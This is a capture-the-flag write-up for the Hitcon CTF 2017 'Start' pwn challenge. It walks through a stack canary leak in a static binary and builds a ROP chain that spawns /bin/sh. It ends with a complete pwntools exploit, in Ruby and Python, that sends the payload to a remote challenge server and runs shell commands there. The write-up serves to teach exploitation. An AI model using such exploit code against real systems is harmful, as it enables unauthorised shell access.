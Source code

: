 ```yaml
---
title: Hitcon CTF 2017 - Start
date: '2017-11-06'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- hitcon2017
tags:
- pwn
authors:
- malweisse
---
```


The given binary is static.

Checksec:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The main procedure is so simple:

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-20h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  alarm(10LL, argv, envp);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  while ( read(0LL, &v4, 217LL) != 0 && (unsigned int)strncmp(&v4, "exit\n", 5LL) )
    puts(&v4);
  return 0;
}
```

If we have a leak of the canary we can overwrite the return address with the buffer overflow.

Sending 24 characters and newline the puts call will print out the canary (overwriting the last byte, but it is always 0).

It's time to build a rop chain.

I used ROPGadget to generate it but it was too long.

So i changed the chain a bit:

```python
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x000000000047a6e6) # pop rax ; pop rdx ; pop rbx ; ret
p += '/bin//sh'
p += p64(0x4141414141414141) # padding
p += p64(0x4141414141414141) # padding
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042732f) # xor rax, rax ; ret
p += p64(0x0000000000475fc1) # mov qword ptr [rsi], rax ; ret
p += p64(0x00000000004005d5) # pop rdi ; ret
p += p64(0x00000000006cc080) # @ .data
p += p64(0x00000000004017f7) # pop rsi ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x0000000000443776) # pop rdx ; ret
p += p64(0x00000000006cc088) # @ .data + 8
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x000000000042740e) # add eax, 0x1d ; ret
p += p64(0x0000000000468320) # add rax, 1 ; ret
p += p64(0x0000000000468e75) # syscall ; ret
```

Ok now we must build the exploit using pwntools-ruby:

```ruby
z = Sock.new '127.0.0.1', 31338;

#canary leak
z.sendline "A"*24 ;
z.recvline;
r = z.recvline;
canary = "\x00" + r[0..6];

#build payload
p = "a"*24 + canary + p64(0x6cc018); #0x6cc018 id rbp
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc080);
p += p64(0x000000000047a6e6);
p += '/bin//sh';
p += p64(0x4141414141414141);
p += p64(0x4141414141414141);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x000000000042732f);
p += p64(0x0000000000475fc1);
p += p64(0x00000000004005d5);
p += p64(0x00000000006cc080);
p += p64(0x00000000004017f7);
p += p64(0x00000000006cc088);
p += p64(0x0000000000443776);
p += p64(0x00000000006cc088);
p += p64(0x000000000042740e);
p += p64(0x000000000042740e);
p += p64(0x0000000000468320);
p += p64(0x0000000000468e75);
z.send p;
z.recvline;
z.sendline "exit"; #go to 'ret'

#send command to the shell
z.sendline("uname -a");
print z.recv(5000)
```

After testing it in localhost with socat, i wrote a python script that I used to send the ruby exploit:

```python
from pwn import *

def run(cmd):
    expl = '''z = Sock.new '127.0.0.1', 31338;z.sendline "A"*24 ;r = z.recvline;r = z.recvline;canary = "\x00" + r[0..6];p = "a"*24 + canary + p64(0x6cc018) ;p += p64(0x00000000004017f7);p += p64(0x00000000006cc080);p += p64(0x000000000047a6e6);p += '/bin//sh';p += p64(0x4141414141414141);p += p64(0x4141414141414141);p += p64(0x0000000000475fc1);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x000000000042732f);p += p64(0x0000000000475fc1);p += p64(0x00000000004005d5);p += p64(0x00000000006cc080);p += p64(0x00000000004017f7);p += p64(0x00000000006cc088);p += p64(0x0000000000443776);p += p64(0x00000000006cc088);p += p64(0x000000000042740e);p += p64(0x000000000042740e);p += p64(0x0000000000468320);p += p64(0x0000000000468e75);z.send p;z.recvline;z.sendline "exit"; z.sendline("''' + cmd + '''"); print z.recv(5000)'''

    sh = remote("54.65.72.116", 31337)
    sh.recvuntil("> ")
    sh.sendline(expl)
    print sh.recvall()


c = raw_input("> ")
while c != "q":
    run(c)
    c = raw_input("> ")
```

Now you can navigate the filesystem and get the flag.

